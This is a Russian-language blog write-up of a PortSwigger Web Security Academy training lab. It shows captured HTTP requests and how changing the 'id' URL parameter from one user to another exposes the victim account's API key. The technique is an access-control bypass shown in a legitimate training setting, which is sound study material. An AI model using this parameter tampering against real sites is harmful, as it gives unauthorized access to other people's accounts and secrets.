 ```yaml
---
title: "User ID controlled by request parameter"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter"
classes: wide
---
```


Для решения лабы нужно получить `API` токен пользователя `carlos`. Для входа есть креды от учетной записи `wiener`:`peter`.

```
https://0a48009d04e7fa778098948800df006c.web-security-academy.net/
```

## Solution

Зайду в данную учетку. 

Ничего интересного не вижу, кроме функции изменения почты. Попробую это сделать:

```http
POST /my-account/change-email HTTP/2
Host: 0a48009d04e7fa778098948800df006c.web-security-academy.net
Cookie: session=Ps1zcdu7m7TTe4808VPrxUKDXSuWKRn9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a48009d04e7fa778098948800df006c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=mail%40mail.com&csrf=ZtSk4EzKiCJQNaeRPb3EMaBcu3GtKrPr
```

Попробую изменить значение в теле запроса:

```http
POST /my-account/change-email HTTP/2
Host: 0a48009d04e7fa778098948800df006c.web-security-academy.net
Cookie: session=Ps1zcdu7m7TTe4808VPrxUKDXSuWKRn9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: https://0a48009d04e7fa778098948800df006c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=new_name&csrf=Rl2U5qcaKmFk73pWIeHEhEvMWI8XpJqG
```

Запрос обработан, но ничего путного не вышло. Попробую сделать еще проще: в `URL` указано имя `wiener` в параметре `id`, подставлю `carlos`)

```
https://0a48009d04e7fa778098948800df006c.web-security-academy.net/my-account?id=carlos
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter/1.png){: height="200" .align-center}

Сдам `API` ключ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter/2.png){: height="200" .align-center}